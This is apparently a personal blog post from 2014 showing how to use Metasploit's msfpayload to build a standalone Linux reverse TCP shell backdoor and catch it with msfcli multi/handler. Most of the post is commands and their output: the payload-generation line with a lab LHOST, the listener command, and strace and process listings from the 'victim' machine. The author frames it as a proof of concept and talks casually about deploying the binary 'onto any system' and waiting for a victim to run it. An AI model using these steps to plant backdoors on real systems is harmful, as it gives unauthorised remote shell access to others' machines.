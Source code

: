 ```yaml
---
categories:
  - awesome-applications
  - metasploit
tags:
  - security
  - metasploit
layout: post
title: Msfpayload Greatness - Creating a Simple Backdoor
created: 1409461080
---
```


So it's Saturday night, I don't have a date, nor am I drunk, so lets hack!

I'm not a Metasploit ninja what so ever, and the basic MSF knowledge I have is playing with it via `msfconsole`. I've heard of `msfpayload` and its capabilities, but I've never gotten a chance to play around with it until now. Holyshit, `msfpayload` is freaking awesome! Msfpayload essentially gives you the ability to export payloads into a standalone binary executable or dll and yet even cooler, as well as the actual raw shellcode representation in either C, C#, Perl, Ruby, JS, VBA, and Python.

To illustrate its greatness, its dead simple to create a standalone backdoor that you can deploy onto any system.  

Syntax is straight forward:

```bash
root@kali01:~# msfpayload -h

    Usage: /opt/metasploit/apps/pro/msf3/msfpayload [< options >]  < payload > [var=val] <[S]ummary|C|Cs[H]arp|[P]erl|Rub[Y]|[R]aw|[J]s|e[X]e|[D]ll|[V]BA|[W]ar|Pytho[N]>

OPTIONS:

    -h       Help banner
    -l       List available payloads
```

So lets create our self a simple tcp reverse shell. Communicating with the payload is practically identical as with `msfconsole`, in this case the `LHOST`, listening parameter is required. X, parameter is saying that we want a binary executable, and we save the file as `cool_shit`.

```bash
root@kali01:~# msfpayload linux/x86/shell/reverse_tcp LHOST=192.168.56.102 X > cool_shit
Created by msfpayload (http://www.metasploit.com).
Payload: linux/x86/shell/reverse_tcp
 Length: 71
Options: {"LHOST"=>"192.168.56.102"}
```

At this point, assuming the backdoor has been copied to the victim's system. The attacking computer can initiate the payload.  

```bash
root@kali01:~# msfcli multi/handler payload=linux/x86/shell/reverse_tcp LHOST=192.168.56.102 E
[*] Initializing modules...
[-] Failed to connect to the database: could not connect to server: Connection refused
	Is the server running on host "localhost" (::1) and accepting
	TCP/IP connections on port 5432?
could not connect to server: Connection refused
	Is the server running on host "localhost" (127.0.0.1) and accepting
	TCP/IP connections on port 5432?

payload => linux/x86/shell/reverse_tcp
LHOST => 192.168.56.102
[*] Started reverse handler on 192.168.56.102:4444
[*] Starting the payload handler...
```

From here the attacker waits, until the backdoor is run on the victims computer.

<img src="/assets/awesome-applications/reverse_shell.png" alt="Reverse TCP Shell" title="Reverse Shell">

Theirs a few gotchas and quirks that I noticed. The payload handler has to initiated on the attacker's system prior to running the backdoor, other wise the reverse shell backdoor will crash.

```bash
tony@alpha-vm:~$ ./cool_shit
Segmentation fault (core dumped)
```

(Detailed strace output)
```bash
xecve("./cool_shit", ["./cool_shit"], [/* 20 vars */]) = 0
[ Process PID=4859 runs in 32 bit mode. ]
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("192.168.56.102")}, 102) = -1 ECONNREFUSED (Connection refused)
syscall_4294967165(0xffaa1000, 0x1000, 0x7, 0, 0x3, 0) = -1 (errno 38)
syscall_4294967043(0x3, 0xffaa15b8, 0xffff0cff, 0, 0x3, 0) = -1 (errno 38)
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x66ffaa} ---
+++ killed by SIGSEGV (core dumped) +++
Segmentation fault (core dumped)
```

The second quirk was that I wasn't able to properly get a native shell session, but rather just limited to session's commands

<img src="/assets/awesome-applications/shell_error.png" alt="Reverse TCP Shell" title="Reverse Shell">

Even the process itself on the victim's system gave /bin//sh instead of /bin/sh ....

```bash
root      4227  0.0  0.1  61364  3052 ?        Ss   22:53   0:00 /usr/sbin/sshd -D
root      4323  0.0  0.2 109784  4280 ?        Ss   22:53   0:00  \_ sshd: tony [priv]
tony      4359  0.0  0.0 109932  1948 ?        S    22:53   0:00  |   \_ sshd: tony@pts/1
tony      4360  0.0  0.1  26908  4024 pts/1    Ss   22:53   0:00  |       \_ -bash
tony      4874  0.0  0.0   4444   652 pts/1    S+   23:48   0:00  |           \_ /bin//sh
```

I haven't done additional research on this quirk, it may just be some mistake on my end.

Obviously, malicious backdoors are a lot more sophisticated than this, however the fact that the Metasploit Framework lets us easily create them, as proof-of-concept this is truly amazing.

Reference:

* <a href="http://www.offensive-security.com/metasploit-unleashed/Msfpayload" target="_blank">http://www.offensive-security.com/metasploit-unleashed/Msfpayload</a>
